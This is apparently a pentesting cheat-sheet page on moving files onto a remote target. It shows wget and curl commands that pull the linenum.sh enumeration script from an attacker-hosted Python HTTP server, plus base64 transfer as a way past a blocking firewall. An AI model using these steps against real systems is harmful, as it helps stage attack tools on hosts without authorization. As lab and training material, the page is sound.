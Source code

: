 # File transfer

Sometimes we want to transfer files to another machine without having to use a middle man. Or when doing external pentesting we'd lke to transfer some enumeration scripts or smth.

There are many ways to transfer files

## Using wget

One method is to start a HTTP server on our machine and using wget or cURL to download the file on the remote host.

Servers:
[NodeJS](https://expressjs.com/en/starter/hello-world.html)
[Python](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/Tools_and_setup/set_up_a_local_testing_server)
```bash
python3 -m http.server 8000
```

On remote server to download file from a server
```bash
wget http://10.10.14.1:8000/linenum.sh
```
or cURL
```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```
`-o` flag specifies output file, cuz otherwise the downloaded file is just outputted into the console

## Using SCP

This method utilizes SSH to transfer file, but you need to have valid credentials to do that

[Check](./Linux/TransferringWithSSH)

## Using Base64

There are cases when we cannot download files on remote host, because of firewall preventing us to do so. 

There's a trick. We can encode file contents into [base64](https://linux.die.net/man/1/base64).

So if we wanted to transfer file we could
```bash
base64 file.txt -w 0
```
Now we copy this string and decode it at remote with this command:
```bash
echo base64string | base64 -d > filename
``` 

## Validate file transfer

CLI `file` can let us know the type of a file.
`file shell`

To check if file contents are exactly the same we can use md5sum. The md5sum have to match for files to be the same.

```bash
md5sum file.txt
```


